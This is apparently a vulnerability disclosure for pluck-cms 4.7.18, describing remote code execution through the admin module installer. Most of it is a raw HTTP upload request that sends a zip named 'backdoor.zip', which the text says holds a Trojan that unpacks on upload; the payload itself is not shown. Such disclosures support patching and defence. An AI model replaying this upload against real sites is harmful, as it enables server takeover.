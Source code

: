 pluck-cms v4.7.18 has a high risk RCE vulnerability

download link:https://github.com/pluck-cms/pluck

version:4.7.18

function point:options=>manage modules=>install modules

![微信图片_20230714104257](https://github.com/nagenanhai/cve/assets/42707759/79a0cbaa-bf76-42e7-a1e1-48978232299b)

```
POST /admin.php?action=installmodule HTTP/1.1
Host: www.pluck.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------280774172131070674951959640897
Content-Length: 1522
Origin: http://www.pluck.com
Connection: close
Referer: http://www.pluck.com/admin.php?action=installmodule
Cookie: PHPSESSID=ha16hdc7lccmjr8eoa5b5nbfv2
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1

-----------------------------280774172131070674951959640897
Content-Disposition: form-data; name="sendfile"; filename="backdoor.zip"
Content-Type: application/x-zip-compressed

PK
-----------------------------280774172131070674951959640897
Content-Disposition: form-data; name="submit"

Upload
-----------------------------280774172131070674951959640897--
```
Upload.zip compressed package. The compressed package contains a Trojan horse. After uploading, the package will automatically decompress and contain the Trojan file.

![image](https://github.com/nagenanhai/cve/assets/42707759/e849276c-e550-4720-b24c-8c4ffa61da28)

